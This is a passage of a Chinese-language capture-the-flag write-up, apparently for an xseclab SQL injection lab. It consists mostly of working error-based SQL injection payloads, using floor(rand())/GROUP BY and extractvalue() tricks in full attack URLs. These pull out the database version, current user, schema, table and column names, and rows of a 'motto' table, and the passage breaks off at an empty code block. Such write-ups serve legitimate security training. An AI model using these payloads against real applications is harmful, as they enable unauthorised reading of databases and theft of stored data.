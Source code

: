 	select count(*),concat(0x3a,0x3a,(SELECT column_name FROM information_schema.columns WHERE table_name = 'motto' limit 0,1),0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a
依次得到：`id`,`username`,`motto`,

爆数据：


	select count(*),concat(0x3a,0x3a,(SELECT username FROM motto limit 0,1),0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a

怎么会没有返回结果！无语了！

可通过以下方式获得:

```
and(select 1 
	from    (select count(*),concat(
									(select 
										(select 
											(SELECT DISTINCT 
												CONCAT(0x7e,username,0x7e,id,0x7e,motto,0x7e) FROM motto limit 3,1
											)
										) 
									from information_schema.tables limit 0,1
									),floor(rand(0)*2)
									)x 
			from information_schema.tables group by x)a
	)%23 
```

换一个，接着研究。
```
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' and extractvalue(1, concat(0x3a,(SELECT distinct concat(0x3a,username,0x3a,motto,0x3a,0x3a) FROM motto limit 3,1)))%23
```
得到返回结果：

	'::#adf#ad@@#:key#notfound!#::' 

### 另一种解法

//看数据库版本 5.1.73
```
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' and(select 1 from(select count(*),concat((select (select (select concat(0x7e,version(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```
//看当前用户 saeuser@220.181.129.121
```
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' and(select 1 from(select count(*),concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```
//当前数据库 mydbs
```
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' and(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```
//爆库 information_schema, mydbs, test
```
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```
//爆表 log, motto, user
```
```